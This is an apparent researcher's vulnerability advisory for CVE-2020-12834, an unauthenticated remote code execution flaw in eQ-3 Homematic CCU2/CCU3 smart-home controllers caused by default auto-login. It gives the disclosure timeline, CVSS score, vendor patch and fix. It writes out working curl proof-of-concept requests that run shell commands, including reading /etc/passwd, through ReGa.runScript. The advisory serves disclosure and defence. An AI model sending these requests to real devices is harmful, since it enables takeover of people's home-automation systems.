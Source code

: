 ```yaml
---
layout: post
title:  "CVE-2020-12834 eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)"
date:   2020-08-25 19:15:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2020-12834
- Author: psytester
- Title: eQ-3 Homematic CCU2 through 2.51.6 and CCU3 through 3.51.6 allow Remote Code Execution in JSON API Method ReGa.runScript by unauthenticated attackers with access to the web interface due to default auto-login feature enabled during first-time setup (or factory reset)
- Vulnerability Type: CWE-285: Improper Authorization
-	CVSSv3 Base Score: 8.3
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H
- Publishing Date: 14.05.2020
- Updated: 25.08.2020
- Vendor: eQ-3 AG	
- Product: Homematic CCU2 and CCU3
- Vendor contacted: 12.05.2020
- Vendor confirmation: 15.05.2020
- Vendor patch CCU2: 2.53.27 since 25.08.2020
- Vendor patch CCU3: 3.53.26 since 18.08.2020
- Vendor Reference: [HMCCU-604] in changelog of CCU2 and CCU3 "Das Auto-Login ist nach der Erstinbetriebnahme der CCU deaktiviert."
- Affected Firmware version of CCU2: 2.51.6 and prior tested
- Affected Firmware version of CCU3: 3.51.6 and prior tested

# Background

From [vendor's website for CCU2](https://www.eq-3.com/products/homematic/detail/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

In the past, the vendor has never reacted or just very slow to any security report of me. That's why I publish this vulnerability after reporting to vendor without any waiting period.

# Issue Description

During the first time setup or after factory reset a password for WebUI user 'Admin' has to be set, but an auto-login function is set by default.<br>
According to the support this is to facilitate the initial setup.<br>
Switching off this auto-login is not well intuitive. Go to WebUI Home page > Settings > User management page. Click on below button "Log in automatically" next to buttons "Back" and "New".<br>
In "User selection" select from drop down menu "not selected" and finally click "OK".<br>
How many users are aware of this?

And only here you can see the the security alert:
```
Attention!
If automatic login is activated you will be logged-in to the system without entering your user name or password.
The selected user will be logged-in automatically without further validation. The system is no longer protected against external influences.
You can access other user accounts with click on "Login". Afterwards, please login with the user name and password again.
```

This attack vector is inspired by [CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850), where a manual login of the admin is required to use the JSON API method ReGa.runScript.<br>
Inside the runScript the undocumented `system.Exec()` call is used which executes plain unix commands.<br>
As a CCU is an ARM System using a Buildroot Busybox system all linux commands you may want to use are possible and you can code a complete shell script.

The following HTTP requests in Web Browser illustrates the attack vectors:

Open the WebUI to be auto-login `http://1.2.3.4/` will redirect to `http://1.2.3.4/pages/index.htm?sid=@7eY56glHVz@`<br>
Extract the session id `7eY56glHVz` for further usage in JSON API call as "_session_id_" value:

```
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"sleep 4;cat /etc/passwd\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
curl -X POST -H 'Content-Type: application/json; charset=utf-8' -i 'http://1.2.3.4/api/homematic.cgi' --data '{"version": "1.1", "method": "ReGa.runScript", "params": {"script": "string stdout;string stderr;system.Exec(\"/bin/touch /tmp/testfile\", &stdout, &stderr);WriteLine(stdout);", "_session_id_": "7eY56glHVz"}}'
```

# CVE

[CVE-2020-12834](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12834)

# CVSSv3 Base Score

CVSSv3 Base Score: 8.3

CVSSv3 Vector: CVSS:3.0/AV:N/AC:H/PR:N/UI:R/S:C/C:H/I:H/A:H

# Firmware update since August 2020
With firmware CCU3: 3.53.26 and CCU2: 2.53.27 during the first time setup or after factory reset a password for WebUI user 'Admin' has to be set AND by now the auto-login function is switched off by default.<br>
Notice: Existing systems that only apply the update will still have the auto-login active, if this was not removed before.

/www/rega/pages/tabs/admin/adminFirstStart.htm
```
iseUser.setAutoLogin(0, 0);
```

# Credit

[psytester](https://psytester.github.io), but I was inspired by [Joshua Lehr CVE-2019-15850](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15850)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
